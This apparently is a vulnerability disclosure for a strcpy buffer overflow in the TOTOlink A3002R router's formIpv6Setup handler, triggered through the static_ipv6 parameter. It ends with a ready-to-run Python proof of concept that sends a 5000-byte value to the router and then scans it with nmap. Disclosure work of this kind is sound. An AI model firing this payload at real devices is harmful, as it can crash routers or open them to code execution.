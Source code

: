 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_ipv6` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![[Snipaste_2025-01-16_20-55-45.png]]

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v35` variable is passed to `v49` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_ipv6` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_ipv6" data, and `strcpy` copies the string pointed to by `v35` to `v49` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v35` exceeds the size of the `v49` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.


An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_ipv6` string, potentially causing the program to crash.

![[Snipaste_2025-01-16_20-59-21.png]]
# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1&static_ipv6={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
